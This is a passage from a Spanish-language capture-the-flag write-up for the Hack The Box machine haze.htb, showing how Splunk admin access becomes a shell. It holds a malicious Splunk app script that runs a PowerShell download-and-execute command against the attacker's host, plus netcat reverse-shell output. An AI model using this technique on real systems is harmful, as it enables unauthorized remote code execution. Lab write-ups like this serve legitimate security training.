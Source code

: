 ### Administrator - haze.htb

Como somo administrador en el Splunk, simplemente podemos instalar una app maliciosa que nos de ejecución de comandos y así obtener acceso como el usuario que corre el servidor, que es muy probable que tenga privilegios especiales como el `SeImpersonatePrivilege`.

Voy a utilizar una versión modificada de [splunk_shells](https://github.com/TBGSecurity/splunk_shells) para que el archivo `bin/rev_shell.py` (el que se ejecutará cuando intentes hacer una busqueda con la app) me mande una reverse shell directamente. Usaré el script ConPtyShell

```py
import os

os.system("powershell IEX((New-Object Net.WebClient).DownloadString('http://10.10.16.x:8000/uwu'))")
```
{: file="bin/rev_shell.py" }

Yendo a `Apps -> Manage Apps -> Install App from file` podremos instalar dicha app sin problemas, luego tendremos que hacerla visible simplemente editando sus propiedades en el mismo apartado. Finalmente podremos ejecutarla y escribir lo siguiente para lanzarnos una reverse shell:

> Si no te deja ejecutar ninguna búsqueda, es porque el espacio disponible en el sistema es inferior al mínimo que el Splunk por defecto "necesita" para hacer las busquedas. Puedes reducirle el mínimo en `Server Settings -> General Settings -> Pause indexing if free disk space (in MB) falls below`. Reinicia el servidor luego de hacerlo para aplicar los cambios.
{: .prompt-tip } 

![Splunk shell](/assets/writeups/haze/5.png)

```bash
❯ nc -lvnp 443         
Listening on 0.0.0.0 443
Connection received on 10.10.11.61 62320
* enter *
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
 
PS C:\Program Files\Splunk\etc\apps\splunk_shells-1.2\bin> ^Z
[1]  + 13350 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 13350 continued  nc -lvnp 443
 * enter *
PS C:\Program Files\Splunk\etc\apps\splunk_shells-1.2\bin> 
```
